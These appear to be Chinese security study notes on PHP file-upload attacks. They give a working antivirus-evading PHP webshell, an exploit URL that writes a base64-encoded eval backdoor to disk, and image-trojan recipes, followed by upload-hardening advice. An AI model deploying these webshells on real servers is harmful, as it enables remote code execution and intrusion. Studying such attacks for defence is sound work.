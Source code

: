 ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309223515.png)


### php面杀小马
* 小马如下:
```
<?php $_GET[a]($_GET[b]);?>
```

* 仅用`GET函数`就构成了木马,利用方法如下：

```
http://localhost:8081/test/a.php?a=assert&b=${fputs%28fopen%28base64\_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```

* 执行后当前目录生成`c.php`一句话木马，当传参`a`为`eval`时会报错

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309223813.png)

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309223823.png)

## 图片木马制作
1. windows命令：
```
copy /b 1.jpg+2.php
```
`1.jpg`即为图片木马

2. `Edjpgcom`:
专业的图片木马制作工具,使用方法:
打开`edjpgcom.exe`所在文件夹，然后把你所要修改的图片**拖动**到`edjpgcom.exe`上面，然后`edjpgcom.exe`会自动打开，写入想要写的代码即可。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528562057_94708147_1536893280)

## 文件上传防御.
* 轻量级检测必然能绕过
* 检测的重点放在文件内容检测
* 路径/扩展名检测一定要用白名单
* 不能有本地文件包含漏洞
* 随时注意更新Web应用软件

1. 关掉上传文件的功能
如果Web应用程序不需要上传文件的功能，则可以直接将上传文件的功能关闭来避免不必要的麻烦。打开“php.ini”文件，找到file uploads的位置，将file_uploads设置成Off。
2. 限制能够上传的文件大小
如果黑客采取连续不断地上传文件，或是上传极大的文件，来使Web应用程序没有更多资源来处理其他来访者的请求，黑客就可以借此来瘫痪网站。PHP的限制机制可以让您限制允许上传文件体积的最大值，来避免来访者上传太大的文件。单独POST请求的最大值，可以使用php.ini文件的upload_max_size来设置。打开“php.ini”文件，找到upload_max_size的位置，将upload_max_size设置成想要的值。
3. 检查上传文件的类型
4. 检查上传文件的内容
5. 上传的文件不要保存在公开的文件夹内，以避免被黑客直接读取。另外将文件的路径隐藏起来，或是将文件名称改成没有扩展名的随机文件名，都可以增加上传文件的安全性




